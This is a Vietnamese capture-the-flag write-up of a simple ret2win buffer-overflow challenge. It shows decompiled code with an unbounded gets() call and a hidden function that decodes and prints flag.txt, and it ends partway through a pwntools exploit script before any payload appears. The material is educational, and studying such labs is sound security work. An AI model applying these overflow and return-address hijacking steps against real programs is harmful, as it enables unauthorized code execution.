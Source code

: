 ```c
__int64 vuln()
{
  _BYTE v1[32]; // [rsp+0h] [rbp-20h] BYREF

  return gets(v1);
}
```

Ta thấy ở hàm `vuln` sử dụng `gets` để read dữ liệu của chúng ta, và đặc điểm của hàm này là nó sẽ `read unlimited data` mà ta gửi vào điều này có thể dẫn đến `Buffer Overflow`, và với `PIE` tắt và không có `Canary` ta có thể cho chương trình thực thi ở bất kì hàm nào mà ta muốn vì với `Buffer Overflow` ta sẽ kiểm soát được `saved RIP`. Nhưng vấn đề ở đây là ta sẽ cho chương trình nhảy vào đâu? Vì nhìn thoáng quá 2 hàm `win` và `secret` dường như không làm được gì mấy. Thật ra là nó có tác dụng nhưng cách này là một cách `unintended` do mình lúc làm phân tích `IDA` không kĩ và khá no hope về việc cho chương trình nhảy vô đâu nên mình đã làm cách này. Nhưng sau giải anh Vũ Anh có kêu mình check kĩ hơn thì mình nhận thấy có 2 hàm `_dl_relocate_static_pie` và nếu nhìn kĩ hơn thì sẽ có một hàm dư ra một dấu `_` tại hàm này ta thấy được:

```c
int _dl_relocate_static_pie()
{
  char s[104]; // [rsp+0h] [rbp-80h] BYREF
  char filename[8]; // [rsp+68h] [rbp-18h] BYREF
  FILE *stream; // [rsp+70h] [rbp-10h]
  unsigned int i; // [rsp+7Ch] [rbp-4h]

  *(_QWORD *)filename = 'uyu/f`mg';
  for ( i = 0; i <= 7; ++i )
    filename[i] ^= 1u;
  LOBYTE(stream) = 0;
  stream = fopen(filename, "r");
  if ( !stream )
    return puts("Flag file not found!");
  fgets(s, 100, stream);
  return puts(s);
}
```

Chương trình sẽ XOR `filename` của ta với `0x1` và khi XOR xong filename sẽ là `flag.txt` và từ đó dùng `fopen` và `fgets` để mở file và read file thôi

## Exploit Development

Như vậy đây chỉ là một bài `ret2win` đơn giản, nhưng đòi hỏi bạn phải phân tích kĩ, và đây sẽ là exploit của mình:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *

context.log_level = 'debug'
exe = context.binary = ELF('./chall', checksec=False)
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript='''

        b *vuln+31
        c
        '''.format(**locals()), *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
```